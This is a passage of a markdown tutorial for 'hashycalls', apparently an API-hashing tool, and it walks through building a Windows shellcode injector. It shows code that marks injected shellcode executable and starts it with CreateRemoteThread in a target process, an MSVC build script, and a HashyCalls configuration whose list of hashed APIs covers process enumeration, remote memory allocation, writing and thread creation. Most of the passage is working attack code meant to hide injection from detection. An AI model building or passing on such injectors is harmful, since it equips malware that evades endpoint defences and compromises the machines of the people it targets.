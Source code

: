 ```py
	EXEC( Kernel32, VirtualProtectEx ) ( hProcess, pShellcode, sizeof( shellcode ), PAGE_EXECUTE_READ, &OldProtection );
	hThread = EXEC( Kernel32, CreateRemoteThread ) ( hProcess, 0, 0, ( LPTHREAD_START_ROUTINE )pShellcode, 0, 0, 0);
	EXEC( Kernel32, WaitForSingleObject( hThread, INFINITE ) );
	EXEC( Kernel32, CloseHandle( hProcess ) );
	EXEC( Kernel32, CloseHandle( hThread ) );
	return 0;
}
""" % args.target
```

## Step 3; Writing the compiler code
We'll need to write a compilation script for the binary. This example uses the MSVC compiler which limits the scripts functionality to windows.

> [!IMPORTANT]
> Hashycalls doesn't support compilation with another compiler at the moment. This is subject to change in the future. Compilation has not been tested with another compiler so there's a possibility it could work with minor adjustments to this module. 

```py
    compiler = f"""@echo off
call "C:\\Program Files\\Microsoft Visual Studio\\2022\\Community\\VC\\Auxiliary\\Build\\vcvars64.bat"
cd "{os.getcwd()}"
cl main.c hashycalls.c
link.exe main.obj hashycalls.obj /OUT:{args.outfile}
"""
```

## Step 4; Defining the hashycalls object
We're ready to define the hashycalls object. The most important part here is the **apicalls** parameter. This defines which apicalls to include in the hashycalls template. 

Refer to the [scripting](/hashycalls/docs/en/usage/hashycalls/scripting.md) documentation if you are unfamiliar with the HashyCalls object parameters.

```py
    hashy = HashyCalls(
        globals         = True
        , apicalls      = [
            'CreateToolhelp32Snapshot', 
            'Process32FirstW', 
            'Process32NextW', 
            'wcscmp', 
            'OpenProcess', 
            'VirtualAllocEx', 
            'VirtualProtectEx', 
            'WriteProcessMemory', 
            'CreateRemoteThread', 
            'WaitForSingleObject', 
            'CloseHandle'
        ]
        , api_list_name = 'hWin32'
        , algo          = args.algo
        , debug         = False
        , seed          = random.randint(1, 10000)
    )
```
